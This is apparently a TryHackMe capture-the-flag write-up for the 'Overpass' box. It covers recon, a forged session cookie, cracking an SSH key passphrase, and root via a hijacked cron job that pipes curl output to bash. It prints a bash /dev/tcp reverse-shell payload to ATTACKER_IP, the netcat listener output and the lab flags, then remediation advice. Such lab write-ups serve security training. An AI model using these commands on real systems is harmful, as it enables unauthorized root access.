










# Overpass - Broken Auth to Root via Cron Hijack

**Platform:** TryHackMe  
**Difficulty:** Easy  
**OS:** Linux (Ubuntu 20.04)  
**Date:** 2026-04-22

---

## Overview

Overpass is a Linux box styled as a fictional "password manager" built by broke CompSci students. The intended chain is a full recon-to-root walkthrough: directory enumeration surfaces an administrator login page, client-side JavaScript authentication is bypassed by forging a session cookie, the admin page leaks a passphrase-protected SSH private key and enough hints to guess the key owner, the passphrase is cracked offline with John, and a misconfigured root cron job that pulls a build script over an unregistered domain name is hijacked by editing `/etc/hosts` and serving a malicious payload over HTTP.

---

## Target Information

| Field | Value |
|---|---|
| Target IP | 10.65.167.65 |
| OS | Ubuntu 20.04 (Linux 5.15) |
| Open Ports | 22 (SSH), 80 (HTTP) |
| Initial User | james |
| Privilege Escalation | Cron job hijack via writable `/etc/hosts` |

---

## Tools Used

- Nmap (port and service enumeration)
- Gobuster (directory brute force)
- Browser DevTools (JavaScript source review, cookie manipulation)
- ssh2john + John the Ripper (SSH key passphrase cracking)
- SSH (initial foothold)
- Python HTTP server (hosting malicious build script)
- Netcat (reverse shell listener)

---

## Attack Chain

### Phase 1: Port and Service Enumeration

A full TCP port scan with service detection surfaced only two services.



```
nmap -sV -p- 10.65.167.65
```

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Golang net/http server |

The Go-based HTTP server is the obvious first target. SSH without credentials is not useful yet.

---

### Phase 2: Web Directory Enumeration

Gobuster against the dirb common wordlist uncovered a small but interesting directory structure.



```
gobuster dir -u http://10.65.167.65 -w /usr/share/wordlists/dirb/common.txt
```

Surfaced paths: `/aboutus`, `/admin`, `/css`, `/downloads`, `/img`, `/index.html`. The `/admin` directory is the clear pivot point.

---

### Phase 3: Landing Page Review

The index page introduces Overpass as a password manager and hints at the attack surface: stored credentials, a "military-grade" encryption claim (Paradox), and user-generated content.



---

### Phase 4: Admin Login Page

The `/admin` path returns a small HTML form requesting a username and password.



Invalid credentials are rejected with an "Incorrect Credentials" message, which suggests the check is live rather than pure window dressing. Viewing the page source tells a different story.

---

### Phase 5: Client-Side Authentication Bypass

The login logic is implemented in JavaScript loaded directly on the page.



```javascript
if (statusOrCookie === "Incorrect credentials") {
    loginStatus.textContent = "Incorrect Credentials"
    passwordBox.value=""
} else {
    Cookies.set("SessionToken", statusOrCookie)
    window.location = "/admin"
}
```

The server returns either the string `Incorrect credentials` or a raw session token, and the client stores whatever it gets into a `SessionToken` cookie and redirects to `/admin`. There is no server-side check that the cookie value is a real session. Setting any non-empty value as a `SessionToken` cookie in the browser and navigating to `/admin` was enough to reach the authenticated area.

---

### Phase 6: Private Key Extraction

The admin area is a message from Paradox containing an encrypted RSA private key and a hint that the passphrase was set to the user's favorite "two-letter combo" followed by a number.



Saved the key locally as `james_key`.

---

### Phase 7: Cracking the SSH Key Passphrase

Converted the key to a John-compatible hash with `ssh2john` and cracked it against rockyou.



```
ssh2john james_key > james_hash.txt
john james_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Passphrase: `james13`**

The passphrase landed in about a second, confirming both the user identity (James) and the weak passphrase that the hint was pointing at.

---

### Phase 8: SSH Foothold as james

Logging in with the cracked key produced a shell as `james` and access to the user flag.



```
ssh -i james_key james@10.65.167.65
```

```
james@ip-10-65-167-65:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

**User flag:** `thm{65c1aaf000506e56996822c6281e6bf7}`

---

### Phase 9: Root Privilege Escalation via Cron Hijack

Enumerating cron revealed a root-owned job running periodically that pulls a build script from an external domain and executes it:

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Two observations made this immediately exploitable:

- `overpass.thm` is not in DNS. The script silently fails every minute, but the cron keeps running.
- `/etc/hosts` on the target was writable by `james`, so the domain could be pointed anywhere.

Adding `overpass.thm` to `/etc/hosts` pointing at the attacker IP, serving a malicious `buildscript.sh` over a Python HTTP server at the exact path `/downloads/src/buildscript.sh`, and waiting one minute caused cron to fetch and execute the payload as root.

The payload was a bash reverse shell to the attacker listener on port 4444:

```
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```



```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.203.76] from (UNKNOWN) [10.65.167.65] 36446
# whoami
root
# cat /root/root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

**Root flag:** `thm{7f336f8c359dbac18d54fdd64ea753bb}`

---

### Room Completed



---

## Vulnerability Summary

### Client-Side Authentication

The `/admin` login was gated entirely by JavaScript running in the browser. The server returned a session token (or an error string) and the client stored whatever it got as a cookie. Any cookie value was accepted by the admin page on subsequent requests.

**Remediation:** Authentication must be enforced server-side. Every request to `/admin` should validate the session token against server state, not trust a client-set cookie.

### Sensitive Data Exposure in Admin Area

An unencrypted RSA private key and a hint about its passphrase were stored on the admin message board. Even a weak authentication layer should never be the only thing protecting secrets of this kind.

**Remediation:** Private keys should never be stored in user-facing pages regardless of access controls. Rotate the leaked key immediately. Use a secrets manager for keys that must be machine-accessible.

### Weak SSH Key Passphrase

The key passphrase `james13` was cracked in under a second against rockyou. A weak passphrase defeats the entire point of encrypting the private key.

**Remediation:** Enforce a minimum passphrase strength for SSH keys. Consider hardware-backed keys (YubiKey, TPM) where the passphrase cannot be brute forced offline.

### Root Cron Pulling from Unregistered Domain

The root cron job fetched a build script over HTTP from `overpass.thm`, a domain that was not registered in DNS. This pattern is a textbook cron hijack vector on any host where a low-privileged user can influence name resolution (writable `/etc/hosts`, DNS poisoning, or a registered takeover of the abandoned domain).

**Remediation:** Do not execute remote scripts as root from cron. If a remote build step is required, fetch over HTTPS with certificate pinning, verify the payload with a signature before execution, and run with the minimum privilege needed. Lock down `/etc/hosts` ownership and permissions.

### Writable `/etc/hosts` for Non-Root User

The file `/etc/hosts` was writable by the `james` account, allowing arbitrary name resolution overrides. This is a misconfiguration on any system, but catastrophic when combined with a cron that resolves a domain before executing its contents.

**Remediation:** `/etc/hosts` should be owned by root and mode 644. Review all files under `/etc` for write permissions that were granted accidentally or by convenience.

---

## Key Takeaways

- Client-side authentication is not authentication. The server decides whether a session is valid, and any check that only runs in the browser can be trivially bypassed by setting a cookie manually
- Private keys left in user-facing pages are game over regardless of how strong the auth wrapper is. Treat key material as data that must never be served to a browser under any circumstance
- `ssh2john` plus rockyou will break most weak passphrases in seconds. The passphrase on an SSH key is the last line of defense if the key file leaks and it has to be strong
- Cron jobs that fetch remote code and execute it as root are one of the most destructive misconfigurations on Linux. The vulnerability is not specific to this box. Any environment running a pattern like `curl domain/script.sh | bash` from cron needs to be audited immediately
- Writable `/etc/hosts` combined with a domain-pulled cron is a complete privilege escalation primitive. Neither vulnerability alone is fatal, together they give any local user root in under a minute
- Name your attack surfaces deliberately. An unregistered domain hardcoded into a root cron is effectively an unclaimed RCE primitive waiting for someone to either register the domain externally or hijack resolution locally
